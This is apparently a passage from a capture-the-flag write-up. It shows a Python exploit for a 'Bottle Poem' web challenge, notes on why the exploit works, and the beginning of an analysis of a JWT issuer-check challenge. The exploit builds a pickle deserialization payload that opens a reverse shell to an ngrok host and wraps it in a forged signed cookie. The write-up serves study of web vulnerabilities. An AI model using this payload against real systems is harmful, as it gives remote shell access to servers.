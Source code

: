 ```python
import pickle
import base64
import os
import hmac
import hashlib

class RCE:
    def __reduce__(self):
        cmd = """
            python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.tcp.eu.ngrok.io",16526));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
        """
        return os.system, (cmd,)

def gen_cookie(payload):
    b64pld = base64.b64encode(payload)
    signature = base64.b64encode(
        hmac.new(
            b"Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu", b64pld, hashlib.md5
        ).digest()
    )
    return b'"!' + signature + b"?" + b64pld + b'"'

if __name__ == "__main__":
    pickled = pickle.dumps(RCE())
    print(gen_cookie(pickled))
```

### Bottle Poem Conclusion

In this challenge we exploited LFI to leak information including the source of the webapp, and use of insecure deprecated features of unsafe deserialization in the framework which leads to RCE.

## Issues (Web)

This challenge has a downloadable, which contains the source of the challenge. Examining the source, it has an `app.py` and an `api.py` file contains the most interesting part of the challenge. In `app.py`, it has a `/.well-known/jwks.json` endpoint which returns a pre-defined JSON Web Key Set (JWKS). The flag is in a text file, and `/api/flag` endpoint would return the content of the file. However, the flag api endpoint requires authorization to access.

Looking into the authorization code, it checks bearer tokens in header. The token is a JSON Web Token (JWT), and the public key used to verify the token is from the issuer defined in JWT token, grabbed with `requests.get(url)`. Thus, we could use our own public and private key pair to sign the JWT, and point the issuer to somewhere we have control thus provides our own public key for the app to verify the token.

Is it that easy though? Before getting the public key, it checks if the issuer is from `localhost:8080` with `urlparse(issuer).netloc`. With this check, we can no longer point the issuer to anything we want other than `localhost:8080`. I tried to exploit `urlparse` to bypass the restriction, however, it did not seem would work (though not relevant, during the research, I learned that `urlparse` has interesting behaviour when returning hostnames e.g. [this report on Python bug tracker](https://bugs.python.org/issue36338), and [Python has this issue as described in this CVE for the Node.js package too](https://security.snyk.io/vuln/SNYK-JS-URLPARSE-2407759)).
